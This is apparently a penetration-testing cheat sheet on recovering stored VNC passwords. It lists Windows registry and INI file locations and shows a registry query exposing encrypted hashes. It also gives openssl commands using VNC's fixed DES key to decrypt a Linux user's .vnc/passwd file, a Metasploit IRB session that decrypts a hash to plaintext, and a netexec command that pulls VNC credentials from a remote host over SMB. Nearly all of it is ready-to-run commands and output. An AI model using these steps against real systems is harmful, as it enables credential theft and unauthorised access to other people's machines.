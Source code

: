 #password-cracking
# Windows

Location paths for VNC passwords:

```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_CURRENT_USER\Software\TightVNC\Server
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
C:\Program Files\UltraVNC\ultravnc.ini
```

Use Case: 

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

# Linux

If you obtain access to a linux system that is running a vnc service, search through the users .vnc directory. In the .vnc directory you may find a passwd file. To decrypt the password file, run the following command: 

```
cat .vnc/passwd | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
```

```
echo -n "vnc-hash" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

# Other ways to decrypt VNC Passwords

## Metasploit

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

## Netexec

Note: Need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

- nxc smb 172.21.0.11 -u afsimmons -p password -M vnc

Source: 
- https://github.com/frizb/PasswordDecrypts